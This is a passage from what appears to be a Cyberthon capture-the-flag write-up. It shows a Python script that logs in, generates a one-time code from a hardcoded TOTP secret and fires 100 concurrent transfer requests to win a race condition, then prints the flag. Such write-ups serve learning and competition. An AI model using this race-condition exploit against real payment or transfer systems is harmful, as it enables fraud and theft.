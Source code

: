 ```python
    return "Success" in res.text  
  
async def main():  
    async with httpx.AsyncClient() as client:  
        res = await client.post(f"{url}/login", data={"username": "someuser", "password": "someuser"})  
        print(res.text)  
        # client.cookies.set("session", input("Session token"))  
        queue = []  
        # otp = input("Enter OTP: ")  
        totp = pyotp.TOTP("42II463B7OQ42MMLN3TGIZE5QI======")  
        otp = totp.now()  
        for i in range(100):  
            res = transfer(client, "someuser", otp)  
            queue.append(res)  
        queue = await asyncio.gather(*queue)  
        print(queue)  
  
  
asyncio.run(main())
```
With that, we have enough money and can buy the flag
![[Pasted image 20250516225046.png]]
![[Pasted image 20250516224919.png]]
`Cyberthon{time_t0_g3t4w4y_w1th_th3_l00t}`